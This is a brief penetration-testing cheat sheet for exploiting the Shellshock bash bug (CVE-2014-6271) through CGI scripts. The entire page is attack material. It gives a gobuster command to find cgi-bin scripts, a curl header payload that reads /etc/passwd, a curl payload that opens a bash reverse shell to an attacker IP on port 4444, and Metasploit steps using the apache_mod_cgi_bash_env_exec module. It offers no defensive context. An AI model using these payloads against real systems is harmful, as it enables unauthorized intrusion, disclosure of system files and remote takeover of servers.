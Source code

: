 ## Shellshock (CVE-2014-6271)
- Find CGI Scripts `gobuster dir -u http://<target>/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl`
- Vulnerability Confirmation `curl -H "User-Agent: () { :; }; echo; echo; /bin/cat /etc/passwd" http://<target>/cgi-bin/status.cgi`
- Trigger Reverse Shell `curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1" http://<target>/cgi-bin/status.cgi`

#### msfconsole
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <target>
set TARGETURI /cgi-bin/status.cgi
set LHOST <your_ip>
exploit
```